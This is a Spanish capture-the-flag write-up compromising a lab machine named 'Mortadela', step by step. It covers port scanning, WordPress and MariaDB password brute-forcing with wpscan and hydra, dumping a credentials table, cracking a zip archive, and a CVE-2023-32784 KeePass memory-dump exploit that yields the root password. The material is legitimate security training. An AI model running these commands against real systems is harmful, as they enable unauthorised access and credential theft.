










# 🍖 Mortadela

**Por PanTrO**

¡Qué hay de nuevo! Después de conquistar la frutería, me crucé con **Mortadela**. A primera vista parecía la típica máquina con una página por defecto de Apache que no dice nada, pero rascando un poco me encontré con un despliegue de vulnerabilidades que van desde bases de datos abiertas hasta técnicas de **forense de memoria RAM**. ¡Preparaos, que esta tiene curvas!

---

## Fase 1: Reconocimiento. ¿Quién se ha dejado la bodega abierta?

Como siempre, empezamos barriendo todo el espectro de puertos. No me limito a los mil puertos por defecto porque los administradores a veces esconden servicios en puertos altos esperando que nadie mire ahí.

```bash
nmap --stats-every=5s -p 0-65535 --open --min-rate=5000 -T5 -A -sV -Pn -n -v 192.168.1.19 -oX nmap_TCP.xml && xsltproc nmap_TCP.xml -o nmap_TCP.html
```

**Análisis del comando:**

- `-p 0-65535`: Escaneo total. Si hay una puerta abierta, la vamos a encontrar.
    
- `--min-rate 5000`: Velocidad agresiva para no perder tiempo.
    
- `-A -sV`: Para que Nmap intente identificar versiones y lance scripts de enumeración.
    

**El panorama detectado:**

- **Puerto 22 (SSH):** Servicio de acceso remoto.
    
- **Puerto 80 (HTTP):** Servidor Apache. A simple vista, solo la página por defecto.
    
- **Puerto 3306 (MariaDB):** ¡Error crítico de configuración! Una base de datos expuesta a internet es una invitación formal a entrar. 🚩
    



---

## Fase 2: Enumeración Web. El secreto tras el muro.

La página principal era un "It works!" de Apache, así que tocaba buscar directorios ocultos. Usé `ffuf` con el diccionario `combined_directories` de SecLists:


```Bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/combined_directories.txt:FUZZ -u [http://192.168.1.19/FUZZ](http://192.168.1.19/FUZZ) -t 300 -mc 200,301
```

Encontramos `/wordpress/`. Al ser un CMS, lo primero es identificar usuarios válidos. Usé el módulo de enumeración de `wpscan`:



```Bash
wpscan --url [http://192.168.1.19/wordpress](http://192.168.1.19/wordpress) --enumerate u
```

**Resultado:** Identificamos al usuario **mortadela**. Con este dato, lancé un ataque de fuerza bruta contra el login del WordPress para dejarlo corriendo de fondo:


```Bash
wpscan -t 80 --url [http://192.168.1.19/wordpress](http://192.168.1.19/wordpress) --usernames mortadela --passwords /usr/share/wordlists/rockyou.txt
```

_Aquí apliqué **paralelización**: mientras `wpscan` probaba contraseñas a 80 hilos, yo seguía atacando el puerto 3306 para no perder ni un segundo._

---

## Fase 3: Intrusión. Asaltando el MariaDB.

Si el puerto 3306 estaba abierto, era muy probable que el usuario `root` de la base de datos tuviera una contraseña débil. Lancé `hydra`:


```Bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.19 mysql
```



Obtuve la contraseña de `root` antes de que `wpscan` terminara. Al intentar entrar desde mi Kali, me saltó el error `TLS/SSL error: SSL is required`. Como el servidor no lo soportaba, forcé la conexión en texto plano:


```Bash
mysql -h 192.168.1.19 -u root -p --skip-ssl
```

**Extracción de datos:** Dentro de MySQL, busqué credenciales que pudieran servirme para el sistema:


```SQL
show databases;
use confidencial;
show tables;
select * from usuarios;
```

Encontré el usuario **mortadela** y su contraseña. Debido a la tendencia de los usuarios a reutilizar credenciales, probé a entrar por **SSH** con esos datos. ¡Bingo! Acceso inicial conseguido.




---

## Fase 4: Movimiento Lateral. El cofre de /opt.

Nada más entrar como `mortadela`, realicé un barrido rápido de reconocimiento local para buscar vías rápidas de escalada, pero ninguna dio frutos inmediatos:


```Bash
sudo -l                              # Revisar permisos de sudo
find / -perm -4000 2>/dev/null       # Buscar binarios SUID
getcap -r / 2>/dev/null              # Revisar Capabilities
```

Al no ver nada obvio, pasé a la exploración manual y en `/opt` localicé `muyconfidencial.zip`. Me lo descargué a mi Kali para analizarlo offline:


```Bash
scp mortadela@192.168.1.19:/opt/muyconfidencial.zip .
```

El ZIP pedía contraseña. Usé `zip2john` para obtener el hash y `john` para reventarlo:


```Bash
zip2john muyconfidencial.zip > hash_zip.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash_zip.txt
```

Al descomprimirlo, encontré el botín: un archivo de KeePass (`Database.kdbx`) y un volcado de memoria (`KeePass.DMP`).



---

## Fase 5: Escalada a Root. Susurros en la RAM (CVE-2023-32784).

El archivo `.DMP` nos permitió explotar el **CVE-2023-32784**. Este fallo permite recuperar la Master Password de KeePass analizando los rastros que deja en la RAM.

Cloné el exploit del repositorio de **z-jxy**:


```Bash
git clone [https://github.com/z-jxy/keepass_dump](https://github.com/z-jxy/keepass_dump)
cd keepass_dump
python3 keepass_dump.py -f /home/kali/Descargas/KeePass.DMP
```

El script reconstruyó la clave maestra casi perfecta (faltaba el primer carácter). Tras deducirlo, usé **keepassxc-cli** para extraer la contraseña de root almacenada:



```Bash
keepassxc-cli open Database.kdbx
# Comando interactivo para extraer la credencial de root
show --attributes Password root
```




---

## Fase 6: Flags y Conclusión. 🏁

Con la clave de `root`, solo quedó volver al SSH y reclamar las banderas:


```Bash
su root
# Introducir contraseña de KeePass
whoami
cat /home/mortadela/user.txt /root/root.txt
```

